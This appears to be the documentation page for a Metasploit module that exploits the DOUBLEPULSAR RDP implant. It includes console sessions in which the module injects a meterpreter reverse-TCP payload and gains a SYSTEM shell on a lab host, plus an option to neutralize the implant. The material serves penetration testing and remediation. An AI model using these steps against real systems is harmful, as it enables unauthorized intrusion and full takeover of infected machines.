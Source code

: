 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

### DefangedMode

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

### ProcessName

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf exploit(windows/rdp/rdp_doublepulsar_rce) >
```
